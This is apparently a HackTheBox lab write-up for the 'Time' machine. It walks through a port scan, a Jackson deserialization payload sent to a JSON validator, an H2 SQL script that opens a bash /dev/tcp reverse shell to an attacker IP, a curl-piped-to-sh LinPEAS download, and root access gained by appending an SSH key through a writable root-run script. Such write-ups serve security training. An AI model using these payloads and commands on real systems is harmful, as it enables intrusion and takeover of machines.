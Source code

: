 ```yaml
---
title: " HackTheBox - [Time] "
description: Walkthrough of the Time Machine on Hackthebox.
---
```

![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)

![r](https://cdn.discordapp.com/attachments/519930659620257797/832739076687134800/68747470733a2f2f692e696d6775722e636f6d2f344d37495777502e676966.gif)

## 0x1 - Scanning port

```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is the ssh/22 port and the 80 / http port which are open.

We are going to see the http/80 port to see what is interesting.

We see an online json beautifier & Validator with 2 options, "Beatify" & "Validate!(Beta)".

![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)

I intercepted both options in burpsuite and i have just input sample JSON datain the input field, select Beautify option and click on the PROCESS button. We can see this working. 
Now try the same on "Validate! (Beta)" options : 

![a](https://media.discordapp.net/attachments/490431433559506954/832954307493756969/unknown.png)

You got an error ! 
```
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```


## 0x2 - Foothold

I pasted the error message: ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` on google, I came across an article from stackoverflow.  <a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">here article</a>

The error is related to Jackson Polymorphic Deserialization expected START_ARRAY.

Now, you need to create a inject.sql files and add a reverse shell to have it call back to me. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```

Now, start a netcat listener :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Now inject the payload to : "Validate!(Beta)".

```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/inject.sql'”}]
```

and you got a reverseshell running as the user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.10.214] 42212
```

Now for a good stable shell, type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```
Got the user flag : 

```
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```
## 0x3 - Privilege Escalation

Try to upload linpeas ( LinPEAS is a script that search for possible paths to escalate privileges on Linux )

Install linpeas <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start python server where are your linpeas.sh file and curl to the target machine.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

We can see that root has been accessing this file: “/usr/bin/timer_backup.sh”. Which is owned by your user and writeable.

![ak](https://media.discordapp.net/attachments/490431433559506954/832944544067878932/unknown.png)

You need to create your ssh key, add our SSH public key to the authorized_keys file on the server. To do this follow commands :

```sh
ssh-keygen
( no passphrase ) 
Copy your id_rsa.pub key 
and paste this command in target machine : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Now just : ```chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Got the root flag 

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```
##  Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : https://github.com/x0ld
- Twitter : @x0ld7

![ak](https://www.hackthebox.eu/badge/image/491690)

